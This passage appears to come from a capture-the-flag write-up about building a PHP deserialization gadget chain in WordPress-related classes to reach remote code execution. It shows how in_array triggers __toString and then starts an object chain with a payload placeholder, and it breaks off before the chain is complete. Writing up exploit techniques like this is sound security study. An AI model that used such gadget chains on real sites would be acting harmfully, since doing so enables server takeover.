 we can use `echo $object` to trigger `__toString` method.

![image](https://hackmd.io/_uploads/SJTzo24Fll.png)

And yeah we now have `WP_Block_List` in `this->attributes`

Ok now we have `__toString` method leads to RCE, but where will trigger it ?? Look at the first hint

![image](https://hackmd.io/_uploads/BJ2kThVFex.png)

the function `in_array` looks suspicious, we have a small test like this

```php
<?php
class Test{
    public function __toString(){
        echo "Ok toString() triggered";
        return "";
    }
}
$arr = ["1","2"];
$a = new Test();
echo in_array($a, $arr);
?>
```

![image](https://hackmd.io/_uploads/HyFcT24Fex.png)

ok now we have `__toString` when use `in_array` function. Let's put it all together

we can see `in_array` in `resetSecurityProperties` of `SecureTableGenerator`

```php
private function resetSecurityProperties()
{

    // Validate allowed tags
    $safeTags = ['b', 'i', 'strong', 'em', 'u', 'span', 'div', 'p'];
    $validatedTags = [];

    foreach ($this->allowedTags as $tag) {
        if (in_array($tag, $safeTags)) {
            $validatedTags[] = $tag;
        }
    }

    $this->allowedTags = $validatedTags ?: ['b', 'i', 'strong', 'em', 'u'];
}
```

From this, we also have `SecureTableGenerator` in gadget chain and we need to overwrite its `allowedTags`

```php
class WP_Block_Patterns_Registry{
    public $registered_patterns = array('hehe' => array('filePath' => <payload>));
}

class WP_Block_List{
    public function __construct( $blocks, $available_context = array(), $registry = null ) {
		$this->blocks            = $blocks;
		$this->available_context = $available_context;
		$this->registry          = $registry;
	}
}

class WP_HTML_Tag_Processor{
```